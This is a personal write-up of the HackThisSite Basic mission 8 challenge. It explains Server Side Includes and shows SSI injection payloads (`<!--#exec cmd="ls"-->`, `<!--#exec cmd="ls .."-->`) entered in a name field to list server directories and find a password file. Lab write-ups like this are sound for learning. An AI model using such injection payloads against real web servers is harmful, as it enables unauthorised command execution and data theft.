# Description: 

Sam remains confident that an obscured password file is still the best idea, but he screwed up with the calendar program. Sam has saved the unencrypted password file in /var/www/hackthissite.org/html/missions/basic/8/

The password is yet again hidden in an unknown file. Sam's daughter has begun learning PHP, and has a small script to demonstrate her knowledge. Requirements: Knowledge of SSI (dynamic html executed by the server, rather than the browser)

SSI = Server Side Includes

We need to better understand what is SSI 

But SSI is a simple interpreted server-side scripting language used almost exclusively for the World Wide Web which allow us to execute commands using html that is executed by the server side, with that all we need to do is  

# Steps to solve
## 1 Command used to solve:
`<!--#exec cmd="ls"-->`

## Response
path: hackthissite.org/html/missions/basic/8/tmp/randomfile.shtml
body: Hi, tshngmww.shtml hipykpqu.shtml ztxdhjxn.shtml avpfeoie.shtml fviqpmaw.shtml kqbybdzc.shtml dzrnmzgx.shtml npcsygfl.shtml whqxxojt.shtml ylomcmvu.shtml uhdppswp.shtml gzntiicx.shtml dzwbqiuu.shtml qvzuieng.shtml smcerykh.shtml qjhnmhmq.shtml znodwztr.shtml! Your name contains 254 characters.

Since the password file is in /var/www/hackthissite.org/html/missions/basic/8/ it means that is in a superior folder from the first response, so we need to go back to this folder and list its content, with that all we need to use is `ls ..`

# 2 Command used to solve
`<!--#exec cmd="ls .."-->`

## response 
path: https://www.hackthissite.org/missions/basic/8/tmp/fmspaphe.shtml
body: Hi, au12ha39vc.php index.php level8.php tmp! Your name contains 39 characters.

# 3 make request to file to see its content
https://www.hackthissite.org/missions/basic/8/{file.php}


# What did we learnt?
- the /var/www/ folder is used to host web content and pages when using apache servers
- 

# Questions / Objectives 
- How the server process our command in html and return the result in page?
- Create a web server witch process SSI (Server Side Includes)
- Create a web server witch process CGI (Common Gateway Interface)

# important links:

- https://en.wikipedia.org/wiki/Server_Side_Includes
- http://httpd.apache.org/docs/current/howto/ssi.html
- https://nginx.org/en/docs/http/ngx_http_ssi_module.html

# Related Interesting links:

- https://en.wikipedia.org/wiki/Common_Gateway_Interface (CGI)
